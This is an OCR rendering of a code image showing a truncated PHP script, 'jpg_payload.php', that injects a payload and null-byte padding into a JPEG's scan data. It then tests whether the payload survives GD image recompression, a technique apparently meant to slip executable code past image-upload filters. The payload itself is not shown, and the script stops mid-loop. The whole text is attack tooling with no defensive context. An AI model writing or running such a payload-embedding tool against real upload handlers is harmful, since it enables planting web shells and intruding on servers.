 ```php
 
 
    if(!extension_loaded('gd') || !function_exists('imagecreatefromjpeg')) {
        die('php-gd is not installed');
    }
 
    if(!isset($argv[1])) {
        die('php jpg_payload.php <jpg_name.jpg>');
    }
 
    set_error_handler("custom_error_handler");
 
    for($pad = 0; $pad < 1024; $pad++) {
        $nullbytePayloadSize = $pad;
        $dis = new DataInputStream($argv[1]);
        $outStream = file_get_contents($argv[1]);
        $extraBytes = 0;
        $correctImage = TRUE;
 
        if($dis->readShort() != 0xFFD8) {
            die('Incorrect SOI marker');
        }
 
        while((!$dis->eof()) && ($dis->readByte() == 0xFF)) {
            $marker = $dis->readByte();
            $size = $dis->readShort() - 2;
            $dis->skip($size);
            if($marker === 0xDA) {
                $startPos = $dis->seek();
                $outStreamTmp = 
                    substr($outStream, 0, $startPos) . 
                    $miniPayload . 
                    str_repeat("\0",$nullbytePayloadSize) . 
                    substr($outStream, $startPos);
                checkImage('_'.$argv[1], $outStreamTmp, TRUE);
                if($extraBytes !== 0) {
                    while((!$dis->eof())) {
                        if($dis->readByte() === 0xFF) {
                            if($dis->readByte !== 0x00) {
                                break;
                            }
                        }
                    }
                    $stopPos = $dis->seek() - 2;
                    $imageStreamSize = $stopPos - $startPos;
                    $outStream = 
                        substr($outStream, 0, $startPos) . 
                        $miniPayload . 
                        substr(
                            str_repeat("\0",$nullbytePayloadSize).
                                substr($outStream, $startPos, $imageStreamSize),
                            0,
                            $nullbytePayloadSize+$imageStreamSize-$extraBytes) . 
                                substr($outStream, $stopPos);
                } elseif($correctImage) {
                    $outStream = $outStreamTmp;
                } else {
                    break;
                }
                if(checkImage('payload_'.$argv[1], $outStream)) {
                    die('Success!');
                } else {
                    break;
```